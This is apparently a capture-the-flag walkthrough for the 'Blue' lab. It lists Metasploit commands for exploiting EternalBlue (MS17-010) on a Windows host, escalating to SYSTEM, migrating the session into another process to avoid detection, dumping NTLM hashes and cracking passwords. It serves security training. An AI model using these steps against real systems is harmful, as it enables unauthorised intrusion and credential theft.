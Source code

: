 # Blue

### **Tasks**:

1. **Recon**:
   1. Do nmap version scan along with vuln script to find vulnerability
      1. `nmap -sV --script vuln ip`
      2. Vulnerable to CVE-2017-0143 or ms17-010 found.\[Eternal Blue] from nmap results - Answer all questions based on this output.
2. **Gain Access**:
   1. Start metasploit console , search ms17-010, use exploit/windows/smb/ms17\_010\_eternalblue, set RHOSTS to victim ip and run.
   2. Background session by pressing ctrl+z
3. **Escalate**:
   1. Convert shell to meterpreter: use post/multi/manage/shell\_to\_meterpreter , SET LHOST to attacker ip and SESSION (backgrounded session id , use sessions -l to list sessions).
   2. Execute **run**  to get meterpreter session and run `sessions -i meterpreter_`_`session_id` to switch to meterpreter session. Run _`getsystem` to verify we got system access and are NT AUTHORITY\SYSTEM indeed.
   3. Use `ps` to list all process, migrate to any process running as system using `migrate pid`**, **we are injecting our meterpreter in running process to get stable and make our shell less detective.
4. **Cracking**:
   1. type `hashdump` in meterpreter session and obtain NTLM credential hash dump.
   2. Use [crackstation](https://crackstation.net), john or hashcat to get password of Jon.
5. **Find flags!**:
   1. run `search -f flag*` in meterpreter session, you will find location of flags.
   2. Do `cat location_`_`of_`_`flag` for all 3 flag locations and submit the flags !!!

